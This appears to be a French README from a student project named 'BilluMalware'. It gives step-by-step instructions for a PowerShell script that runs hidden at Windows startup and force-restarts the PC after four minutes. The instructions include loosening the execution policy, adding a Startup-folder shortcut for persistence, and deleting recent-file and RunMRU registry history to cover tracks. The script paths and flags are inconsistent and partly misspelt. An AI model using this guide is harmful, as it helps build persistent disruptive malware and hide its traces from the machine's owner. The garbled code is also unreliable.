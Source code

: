# BilluMalware  

Création d'un script PowerShell qui se lance au démarrage, sans fenêtre, et qui redémarre le PC après 4 minutes.

## Étapes  

1. **Création du script PowerShell**

- Créez un fichier PowerShell dans le chemin suivant :

``C:\Users\Administrator\Documents\MalWareFromGrp1.ps1`` 

3. **Édition du script**
    
- Éditez le fichier avec **PowerShell ISE** et insérez le code suivant :  

```
  # Masque la fenêtre PowerShell pendant l'exécution
   powershell.exe -WindowsStyle Hidden -File C:\Users\Administrator\MalwareFromeGrp1.ps1

   # Attend 4 minutes
   Start-Sleep -Seconds 240 

   # Redémarre l'ordinateur de force
   Restart-Computer -Force
```
   
- Autorisation d'exécution des scripts

- Ouvrez PowerShell et tapez la commande suivante pour permettre l'exécution automatique des scripts :

``Set-ExecutionPolicy RemoteSigned``

- Ajout au dossier de démarrage

- Appuyez sur Win+R, tapez shell:startup et validez.

- Vous arrivez dans le dossier de lancement au démarrage :

``C:\Users\maert\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup``

- Faites un clic droit, choisissez "Nouveau" > "Raccourci".

- Nommez le raccourci BilluMalware et indiquez le chemin suivant comme cible :

``powershell.exe -File "C:\Users\Administrators\Documents\BilluMalware.ps1"``

- Nettoyage des historiques

- Supprimer l'historique des fichiers récents dans le navigateur de fichiers.

- Supprimer l'historique de la commande "Exécuter" :
  
- Ouvrez la recherche Windows et tapez regedit.

- Naviguez jusqu'à :

``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU``

- Supprimez toutes les entrées sauf "Default".
